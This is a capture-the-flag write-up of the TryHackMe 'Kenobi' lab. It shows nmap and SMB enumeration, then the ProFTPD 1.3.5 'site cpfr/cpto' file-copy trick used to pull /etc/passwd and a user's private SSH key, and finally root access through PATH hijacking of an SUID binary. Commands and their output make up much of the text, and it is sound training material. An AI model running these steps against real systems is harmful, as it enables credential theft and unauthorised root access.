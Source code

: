 ```yaml
---
title: "Kenobi - THM"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2021-11-21 02:33:29 +05:30
categories: [Writeups, TryHackMe]
tags: [THM, ProFTPD, PATH]
render_with_liquid: false
---
```


## Enumeration

- `nmap -Pn -p- -A 10.10.114.180`

```
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 60 ProFTPD 1.3.5
22/tcp    open  ssh         syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp    open  http        syn-ack ttl 60 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/admin.html
111/tcp   open  rpcbind     syn-ack ttl 60 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      44864/udp6  mountd
|   100005  1,2,3      50049/tcp6  mountd
|   100005  1,2,3      54921/tcp   mountd
|   100005  1,2,3      57249/udp   mountd
|   100021  1,3,4      34301/udp   nlockmgr
|   100021  1,3,4      42343/tcp   nlockmgr
|   100021  1,3,4      45217/tcp6  nlockmgr
|   100021  1,3,4      52968/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack ttl 60 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     syn-ack ttl 60 2-3 (RPC #100227)
33291/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
36651/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
42343/tcp open  nlockmgr    syn-ack ttl 60 1-4 (RPC #100021)
54921/tcp open  mountd      syn-ack ttl 60 1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-11-21T07:00:52-06:00
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time:
|   date: 2021-11-21T13:00:52
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 4604/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57188/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 40874/udp): CLEAN (Failed to receive data)
|   Check 4 (port 43903/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h00m09s, deviation: 3h27m51s, median: 8s
```

### SMB

```
nmap -Pn -sV -p 139,445 --script=smb-os-discovery,'smb-vuln*','smb-enum*' 10.10.114.180
```

```
\\10.10.114.180\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
```

- `smbclient --no-pass \\\\10.10.114.180\\anonymous`
- `get log.txt`
- `cat log.txt`

```
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
```

- We got the path to SSH keys which will be useful later.

---

## Exploitation

- Google or searchsploit ProFTPd 1.3.5
- [ProFTPd 1.3.5 File Copy Exploit](https://www.exploit-db.com/exploits/36742)
- Everything copied to `/home/kenobi/share/` using FTP file copy exploit was accessible through `/anonymous` share using `smbclient`.

```
FTP Anonymous Login =>

ftp> site cpfr /etc/passwd
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/passwd
250 Copy successful

ftp> site cpfr /etc/samba/smb.conf
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/smb.conf
250 Copy successful

ftp> site cpfr /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
ftp> site cpto /home/kenobi/share/id_rsa
250 Copy successful
```

- Then get these files from `/anonymous` share. 
- `smbclient --no-pass \\\\10.10.114.180\\anonymous`

```
smb:\> ls 
log.txt, passwd, id_rsa, smb.conf

smb:\> get id_rsa
```

- Change the permissions on `id_rsa` file.
- `chmod 600 id_rsa`
- `ssh -i id_rsa kenobi@10.10.114.180` 
- `whoami` <span class="fat-arrow">=></span> `kenobi`

---

## Privilege Escalation with PATH Manipulation 

- `find / -perm -u=s -type f 2>/dev/null`
- There is an odd looking `/usr/bin/menu` entry.
- `strings /usr/bin/menu` 

```
strings /usr/bin/menu

1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
```

- It is calling `curl`, `uname`, and `ifconfig` without absolute path.
- We can create a binary named as either of these 3 in `/tmp` and add it to path.
- `cp /bin/bash /tmp/curl` OR
- `echo "/bin/bash -p" > /tmp/curl`
- `export PATH=/tmp:$PATH`
- Now when `curl` is invoked without absolute path (`/usr/bin/curl`), it will be invoked from `/tmp/curl`

```bash
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/
```

- `/usr/bin/menu` <span class="fat-arrow">=></span> Press 1 as it invoked `curl`
- We get a root shell
- `whoami` <span class="fat-arrow">=></span> `root`

